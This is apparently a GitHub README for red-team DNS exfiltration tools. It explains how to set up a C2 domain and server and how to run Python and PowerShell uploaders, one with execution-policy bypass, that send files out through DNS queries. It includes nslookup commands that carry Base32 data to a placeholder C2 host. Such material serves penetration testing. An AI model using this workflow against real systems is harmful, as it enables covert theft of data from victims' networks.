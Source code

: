 
# DNS Exfiltration Tools

**Disclaimer:**  
These tools are intended solely for **security testing purposes**. I am not responsible for any misuse of these tools. **Use responsibly**.

---

## Table of Contents
1. [Infrastructure Setup](#infrastructure-setup)
2. [Tool Usage](#tool-usage)
    - [dns_file_receiver.py (Unix - Server)](#dns-file-receiver-unix---server)
    - [dns_file_uploader.ps1 (Windows - Client)](#dns-file-uploader-windows---client)
    - [dns_file_uploader.py (Unix - Client)](#dns-file-uploader-unix---client)
    - [ns_dns_server.py (Unix - Server)](#ns-dns-server-unix---server)
3. [Base32 Payload Instructions for ns_dns_server.py (Client)](#base32-payload-instructions-for-ns_dns_serverpy-client)

---

## Infrastructure Setup

**Prerequisites:**
- You must own a domain and have an internet-connected server.
- Example setup uses AWS and Cloudflare.

**Server Information:**
- AWS VM IP: `123.123.123.123`
- Cloudflare Domain: `fakedomain.com`

**Cloudflare DNS Configuration:**
1. Create an NS record:  
   **Name:** `c2.fakedomain.com`  
2. Create an A record for C2:  
   **Name:** `c2`  
   **IPv4 address:** `123.123.123.123`  
3. Create an A record for `example.com`:  
   **IPv4 address:** `123.123.123.123`

---

## Tool Usage

### dns_file_receiver.py (Unix - Server)

1. Edit the `domain` parameter in the script to:  
   ```bash
   c2.fakedomain.com
   ```
2. Adjust the `SOCKET_TIMEOUT` to an appropriate duration in seconds. This determines how long the script will stay active, waiting for client connections.

3. Run the script:  
   ```bash
   sudo python3 dns_file_receiver.py
   ```

### dns_file_uploader.ps1 (Windows - Client)

1. Update the `domain` parameter in the script to:  
   ```bash
   c2.fakedomain.com
   ```
2. Run the script with PowerShell:  
   ```bash
   powershell -ExecutionPolicy Bypass -File .\dns_file_uploader.ps1
   ```
3. Follow the prompts:
    - **File path:** (quotes can be used)
    - **Domain OR IP:** Either the AWS server IP (`123.123.123.123`) or domain name (`fakedomain.com`)
    - **Random delay:** Set a random delay in seconds

### dns_file_uploader.py (Unix - Client)

1. Update the `DNS_SERVER` parameter to:  
   - AWS server IP (`123.123.123.123`) or domain name (`fakedomain.com`)

2. Update the `domain` parameter in the script to:  
   ```bash
   c2.fakedomain.com
   ```

3. Run the script:  
   ```bash
   sudo python3 dns_file_uploader.py
   ```
4. Follow the prompts:
    - **File path:** (quotes can be used)
    - **Random delay:** Set a random delay in seconds

### ns_dns_server.py (Unix - Server)

1. Update the `DOMAIN` parameter in the script to:  
   ```bash
   c2.fakedomain.com
   ```
2. Optionally, update the `fake_ip` parameter if needed.

3. Run the script:  
   ```bash
   sudo python3 ns-dns_server.py
   ```

---

## Base32 Payload Instructions for ns_dns_server.py (Client)
**IMPORTANT NOTE:**
- **Maximum Length of a DNS Label:** Each label (subdomain) in a DNS name can be up to 63 characters.
- **Maximum Length of the Entire Domain Name:** The full domain name (including all labels and dots) can be a maximum of 253 characters.

1. Use [CyberChef](https://gchq.github.io/CyberChef/#recipe=To_Base32('A-Z2-7%3D')) to create a Base32 payload.
   
2. Once the payload is generated, use `nslookup` to test the server:  
   ```bash
   nslookup <payload>.c2.fakedomain.com
   ```

**Example:**

- **Input:**  
   ```
   TESTING TESTING 123
   ```
- **Output:**  
   ```
   KRCVGVCJJZDSAVCFKNKESTSHEAYTEMY=
   ```

- **Command:**  
   ```bash
   nslookup KRCVGVCJJZDSAVCFKNKESTSHEAYTEMY.c2.fakedomain.com
   ```
  **EXTRA NOTE:**
  - The '=' is added by the script when it tries to decrypt it.
  - The domain string KRCVGVCJJZDSAVCFKNKESTSHEAYTEMY.c2.fakedomain.com contains 49 characters.
---

**Note:** All other tools not documented here are works in progress.
